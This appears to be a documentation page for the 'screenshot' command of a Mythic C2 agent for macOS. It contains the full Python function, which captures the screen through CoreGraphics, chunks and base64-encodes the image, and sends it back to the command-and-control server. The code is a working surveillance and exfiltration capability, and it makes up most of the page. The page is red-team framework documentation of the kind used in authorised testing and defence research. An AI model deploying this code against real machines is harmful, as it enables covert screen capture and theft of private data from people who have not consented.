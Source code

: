 +++
title = "screenshot"
chapter = false
weight = 100
hidden = false
+++

## Summary

Use the built-in CGDisplay API calls to capture the display and send it back over the C2 channel. 

- Python Versions Supported: 2.7
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500

### Arguments

## Usage

```
screenshot
```

## MITRE ATT&CK Mapping

- T1113  

## Detailed Summary

This uses API calls to read the current screen the return it to Mythic. This doesn't currently capture _all_ screens though.

```Python
    def screenshot(self, task_id):
        from Cocoa import NSURL, NSBitmapImageRep
        import LaunchServices
        import Quartz
        import Quartz.CoreGraphics as CG
        region = CG.CGRectInfinite
        image = CG.CGWindowListCreateImage(region, CG.kCGWindowListOptionOnScreenOnly, CG.kCGNullWindowID, CG.kCGWindowImageDefault)
        sh_data = CG.CFDataCreateMutable(None, 0)
        dest = Quartz.CGImageDestinationCreateWithData(sh_data, LaunchServices.kUTTypePNG, 1, None)
        file_size = 0
        if(dest):
            Quartz.CGImageDestinationAddImage (dest, image, 0)
            if (Quartz.CGImageDestinationFinalize(dest)):
                file_size = CG.CFDataGetLength(sh_data)

        if(file_size) > 0:
            total_chunks = int(file_size / CHUNK_SIZE) + (file_size % CHUNK_SIZE > 0)
            data = {
                "action": "post_response", 
                "responses": [
                {
                    "task_id": task_id,
                    "total_chunks": total_chunks,
                    "file_path": str(datetime.now()),
                    "chunk_size": CHUNK_SIZE,
                    "is_screenshot": True 
                }]
            }
            initial_response = self.postMessageAndRetrieveResponse(data)
            for i in range(0,total_chunks):
                if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                    return "Job stopped."

                if i == total_chunks:
                    content = sh_data[i*CHUNK_SIZE:]
                else:
                    content = sh_data[i*CHUNK_SIZE:(i+1)*CHUNK_SIZE]
                data = {
                    "action": "post_response", 
                    "responses": [
                        {
                            "chunk_num": i+1,
                            "file_id": initial_response["responses"][0]["file_id"],
                            "chunk_data": base64.b64encode(content),
                            "task_id": task_id                        
                        }
                    ]
                }
                response = self.postMessageAndRetrieveResponse(data)

```

The screencapture is chunked and sent back to Mythic.

>**NOTE** With 10.15, there are protections against this, so be careful

